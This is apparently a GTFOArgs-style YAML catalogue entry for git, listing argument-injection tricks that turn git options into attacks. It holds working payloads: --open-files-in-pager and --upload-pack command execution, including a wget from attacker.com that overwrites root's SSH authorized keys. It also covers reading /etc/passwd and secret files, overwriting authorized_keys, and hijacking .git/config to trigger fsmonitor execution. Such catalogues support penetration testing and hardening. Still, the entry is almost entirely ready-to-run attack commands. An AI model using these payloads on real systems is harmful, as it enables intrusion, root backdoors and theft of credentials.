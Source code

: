 ```yaml
---
description: Git is an extremely powerful tool with more functionality than one can count. This list is non-exhaustive, but includes examples which have historically been useful for exploitation.
functions:
  command:
    - description: The --open-files-in-pager flag can be used to run arbitrary commands.
      code: |
        git grep --open-files-in-pager='uname -a #' .
        git grep --open-files-in-pager='uname;' .
    - description: The --upload-pack flag can be used in multiple contexts. Note that the output is not necessarily shown (but you can route the output to stderr and possibly view it, by using `>&2`). ls-remote is the only example which does not require the command to be run within a tracked folder.
      code: |
        git ls-remote --upload-pack='uname -a > /tmp/file #' main
        git fetch origin --upload-pack='cat /etc/passwd >&2 ;'
        git pull origin --upload-pack='wget attacker.com/key -O /root/.ssh/authorized-keys #'
    - description: This method takes advantage of one of the file-write methods to overwrite `.git/config`. Officially, this is probably out of scope of GTFOArgs, but it is included anyways. `id` is executed and written to `/tmp/fsmonitor` in this example.
      code: |
        git commit --allow-empty -m 'fsmonitor = "id>/tmp/fsmonitor"'
        git commit --allow-empty -m '[core]'
        git log --max-count=2 --pretty=format:"%s" --output=./.git/config
        git status
  file-read:
    - description: It is common to use `git diff` to compare a single file to a different version of itself in history. The `--no-index` flag can be used to effectively turn `git diff` into normal `diff` against another file _within the git repository_ (but not necessarily tracked).
      code: |
        git diff --no-index local-secret-file.conf git.md
    - description: If you are reading a file outside of the git directory, you can use `git diff` against `/dev/null`.
      code: |
        git diff /dev/null /etc/passwd
  file-write:
    - description: Outputs the most recent changelog to an arbitrary file. Note that this also contains the commit information.
      code: |
        git log --max-count=1 --output=/root/.ssh/authorized_keys
    - description: Outputs the first line of the most recent commit message to an arbitrary file.
      code: |
        git log --max-count=1 --pretty=format:"%s" --output=/root/.ssh/authorized_keys
    - description: Can be used to overwrite a file, or create an empty file.
      code: |
        git blame --output=/tmp/file_to_truncate.txt
---
```

